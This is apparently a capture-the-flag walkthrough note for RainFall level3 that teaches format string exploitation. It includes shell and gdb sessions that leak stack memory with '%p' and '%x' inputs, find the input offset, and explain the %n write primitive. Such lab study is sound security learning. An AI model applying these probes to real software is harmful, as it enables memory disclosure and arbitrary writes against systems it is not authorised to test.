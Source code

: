 

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa

level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520

Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf() and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/


#include<stdio.h>

int main()

{

    int c;
    printf("123456789A%n     \n", &c);
    printf("%d", c);
    return 0;
    
    // output
    // 123456789A     
    // 10
    
}

* Geeks4Geeks

"the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf



```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from the stanford article:

a way to directly address a stack parameter from within the format string, The direct parameter access is controlled by the ‘$’ qualifier.

so in our case
```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```


